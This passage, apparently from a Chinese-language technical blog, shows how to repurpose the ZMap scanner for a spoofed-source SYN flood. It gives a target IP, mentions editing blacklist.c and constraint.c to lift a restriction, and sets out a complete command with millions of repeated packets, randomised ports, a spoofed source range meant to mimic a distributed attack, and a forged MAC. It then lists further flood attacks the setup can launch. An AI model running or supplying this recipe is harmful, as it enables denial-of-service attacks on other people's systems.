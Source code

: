 单个 Ip 地址

```
222.222.221.82/32  （随机找了一个，这里 1.02 版本测试不能直接，需要改 blacklist.c 和 constraint.c 中生成 IP 地址的二叉树的 root 节点一小部分代码） 
```

然后利用

```
-P  10000000 （重复多次发包）
-s  2000-60000 (设置一个大的端口段)
-S  20.20.20.0-200.200.200.200（随机大量 Ip 地址，模拟分布式的 D）
-G  这个伪造 mac （但是收不到数据包）

Zmap –p 80 -P 10000000 -s 2000-60000 -S 20.20.20.0-200.200.200.200 -w attack_url.txt 
```

见下列发送的数据效果，达到预期

![enter image description here](img/img3_u99_png.jpg)

可能造成什么样的危害?

可以配置 IP Spoofing，syn flood,land attack, ICMP floods, Application floods 和其他 UDP 全零等多种攻击。

Zmap 的发包速度甚至可以忽略一下 随后发的这个 rst 包。
